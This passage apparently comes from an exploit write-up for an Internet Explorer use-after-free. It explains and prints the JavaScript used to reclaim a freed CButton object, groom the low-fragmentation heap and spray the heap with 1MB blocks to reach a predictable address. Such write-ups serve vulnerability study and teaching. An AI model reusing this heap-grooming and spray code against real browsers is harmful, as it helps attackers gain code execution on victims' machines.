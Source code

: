 In the exploit this is achieved with the following lines (buttonSize was determined to be 0x58 and heapBlock = 0x07d00000):
```javascript
function trigger() {
    string = createString(pack([heapBlock + 0x24]), buttonSize);
    ...code...
    tDiv.className = string.substr(0);					// Allocate an object that is the same size
}
```

In order to ensure that our string object actually replaces the freed CButton and not some other heap block that happened to be of the same size, a low fragmented heap was created by iteratively creating CButton objects at the beginning of the exploit to fill in any gaps in the heap of size 0x58:
```javascript
function lfh(elType) {
    CollectGarbage();
    for (var i = 0; i < 20; i++) {
        document.createElement(elType); 
    }
}
...
lfh("button");
```

Since IE will align 1MB heap blocks with addresses sequentially incremented by 0x100000, an address that is predictable becomes a trival task as you simply have to spray the heap with 1MB blocks repeatedly until a range of addresses appear frequently enough to chose an address that most likely will contain our crafted heap block:
```javascript
function heapspray(payload) {
    var str = "\u4141";
    var base = payload;

    while ( base.length < ( 64*512 ) )
        base += str;

    sixtyFourKB = base.substr(0, 64*512);

    var mbBlock = "";
    var headerSize = 0x34/2;

    var count = 0;
    while (count++ < 15) {
        mbBlock += sixtyFourKB;
    }

    mbBlock += sixtyFourKB.substr(0, sixtyFourKB.length - headerSize);

    count = 0;
    while (count++ < 100) {
        heapBlocks[count] = mbBlock.substr(0, mbBlock.length);
    }
}
```
